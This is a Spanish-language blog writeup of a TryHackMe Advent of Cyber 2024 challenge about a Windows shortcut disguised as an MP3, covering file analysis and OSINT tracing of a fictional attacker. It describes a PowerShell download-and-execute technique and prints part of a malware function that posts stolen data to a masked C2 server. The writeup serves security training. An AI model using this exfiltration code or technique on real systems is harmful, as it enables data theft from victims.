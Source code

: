```yaml
---
title: 'AoC 2024: Día 1 - Analizando archivos sospechosos 🔍'
description: 'Resolvemos el reto del día 1 en el Advent of Cyber 2024 organizado por TryHackMe.'
image: '/images/blog/advent-of-cyber-2024/thumbnails/day1.png'
date: '2024-12-01'
author: 'xhetic'
tag: ['TryHackMe', 'Principiante', 'OPSEC', 'Advent of Cyber']
category: 'Writeups'
featured: true
published: false
---
```


Bienvenidos al primer día del **Calendario de Adviento de Ciberseguridad 2024** de [TryHackMe](https://tryhackme.com/). Hoy nos enfrentamos a un reto que combina investigación digital y análisis de archivos sospechosos. ¿Listos para descubrir qué se oculta detrás del nombre "Glitch"? Vamos a resolverlo juntos. ¡Manos a la obra!

Room: [Advent of Cyber 2024](https://tryhackme.com/r/room/adventofcyber2024)

## 🕵️ Historia: Una amenaza oculta

**McSkidy** ha detectado una actividad sospechosa relacionada con una web que promete convertir vídeos de YouTube a MP3. Aunque parece inofensiva, hay señales de alerta que nos invitan a investigar más a fondo. Nuestra misión es descubrir qué hay detrás de esta fachada.

### 🎯 Objetivos de aprendizaje

1. Identificar archivos maliciosos vinculados a enlaces sospechosos.
2. Entender los principios de **OPSEC** y errores comunes.
3. Aprender a rastrear y atribuir identidades digitales.

---

## 🔗 Investigación del sitio web

Primero, accede al laboratorio desde tu **AttackBox**. Usa la IP asignada para abrir el sitio en el navegador. A simple vista, parece un sitio legítimo con funcionalidades prometedoras, pero no te dejes engañar.

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img1.png)

### 🚩 Riesgos comunes en sitios de conversión YouTube a MP3

- **Malvertising**: Publicidad maliciosa que explota vulnerabilidades.
- **Phishing**: Trampas para obtener información sensible.
- **Malware embebido**: Archivos contaminados con software malicioso.

Nosotros investigaremos más allá. Para ello, introduce un enlace de YouTube (por ejemplo, [este clásico](https://www.youtube.com/watch?v=dQw4w9WgXcQ)) y haz clic en "Convertir".

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img2.png)

---

## 🗂️ Analizando los archivos descargados

Extrae el contenido del archivo `download.zip`. Encontrarás dos archivos: `song.mp3` y `somg.mp3`. Algo no cuadra con este segundo archivo...

### 📋 Paso 1: Verificando los archivos

Abre la terminal y usa el comando `file` para analizar ambos:

```bash
file song.mp3
```

Y veremos esta respuesta

```bash
song.mp3: Audio file with ID3 version 2.3.0,
contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```

Este archivo parece normal. Ahora probemos con el segundo:

```bash
file somg.mp3
```

Y la respuesta obtenida es

```bash
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive,
ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

**🧐 Sorpresa**: ¡Es un archivo **.lnk** (acceso directo) disfrazado de MP3!

---

## 🔍 Inspección del archivo .lnk

Para investigar más a fondo, ejecuta `exiftool`:

```bash
exiftool somg.mp3
```

El resultado revela un comando **PowerShell** oculto que descarga y ejecuta un script malicioso (`IS.ps1`) desde un servidor remoto.

- **-ep Bypass -nop**: Evita restricciones de seguridad.
- **DownloadFile**: Utiliza este método para descargar el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)
- **iex**: Ejecuta el script tras descargarlo.

---

## 🕵️‍♂️ Rastreando al atacante

Si analizamos por encima el script **IS.ps1** contiene la firma: **"Created by the one and only M.M."**. Vamos a buscar esta cadena en **GitHub** para ver si encontramos pistas sobre el creador.

```bash
"Created by the one and only M.M."
```

Accede al [resultado de búsqueda en GitHub](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/7). Analiza los proyectos relacionados para obtener información sobre el atacante.

---

## 🧩 Preguntas del Reto (Flags)

Para completar este primer desafío del calendario de adviento de TryHackMe, tendrás que responder las siguientes preguntas. A continuación, te explico cómo puedes encontrar cada respuesta sin dar directamente las soluciones.

#### 1️⃣ **¿Quién es el autor de la canción (`song.mp3`)?**

💡 **Pista**: Ejecuta `exiftool song.mp3` en tu terminal. La respuesta estará en el campo `Artist`.

```cmd
T**** R******
```

#### 2️⃣ **¿Cuál es la URL del servidor C2 al que el script malicioso envía la información robada?**

💡 **Pista**: La respuesta se consigue analizando la funcion `Send-InfoToC2Server` en el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1).

```bash
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "****://*********.***/****"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
```

#### 3️⃣ **¿Quién es M.M?**

💡 **Pista**: Busca el [repositorio](https://github.com/JoshuaFerando/Mayor-Malware) coincidente con la firma **"Created by the one and only M.M."** en GitHub usando la barra de búsqueda.

```bash
🦹‍♂️ Hi, I’m M.M, also known as M**** M******. I run things in Wareville Town.
```

#### 4️⃣ **¿Cuántos commits tiene el repositorio donde se reportó el problema?**

💡 **Pista**: Una vez encuentrado el [repositorio del script donde la incidencia se produjo](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search) , dirígete a la pestaña **"Commits"**. Allí podrás ver el número exacto de commits realizados.

```bash
* Commits
```

---

## 📝 Conclusión

Este ejercicio nos ha permitido desentrañar cómo un simple archivo puede convertirse en una amenaza seria. Hemos practicado análisis de archivos, investigación OSINT y rastreo de identidades digitales. ¿Has descubierto quién es "Glitch"? ¡Comparte tus resultados en los comentarios!

---

**⚠️ Nota**: Recuerda que este laboratorio es educativo. No intentes ejecutar estos comandos en entornos reales sin las precauciones adecuadas.
